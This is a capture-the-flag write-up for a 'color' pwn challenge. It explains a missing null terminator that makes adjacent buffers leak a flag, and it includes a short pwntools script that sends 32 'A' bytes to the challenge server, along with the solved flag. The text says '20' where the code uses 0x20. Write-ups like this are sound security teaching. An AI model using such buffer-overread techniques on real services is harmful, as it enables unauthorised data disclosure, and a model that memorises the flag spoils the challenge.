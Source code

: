 https://ctftime.org/event/2449

# color (pwn)

What's your favorite color?

nc challs.pwnoh.io 13370

## Analysis

We can see that these two buffers are adjacent such that if `FAVORITE_COLOR` contained `b"A" * 20` string based operations which assume the presense of a null terminator would treat both buffers as a single string:

```C
char FAVORITE_COLOR[0x20];
char FLAG[0x28];
```

## Solution

1) Set `FAVORITE_COLOR` to `b"A" * 20`
2) Allow `printf("%s!?!? Mid af color\n", FAVORITE_COLOR);` to print the flag

```python
#!/usr/bin/env python3

from pwn import *
import re

#context.log_level = "debug"
p = remote("challs.pwnoh.io", 13370)

p.sendline(b"A" * 0x20)

# bctf{1_d0n7_c4r3_571ll_4_m1d_c010r}
print(re.search(r"bctf{.+}", p.readline().decode())[0])
```

## Flag
`bctf{1_d0n7_c4r3_571ll_4_m1d_c010r}`

smiley 2024/09/29
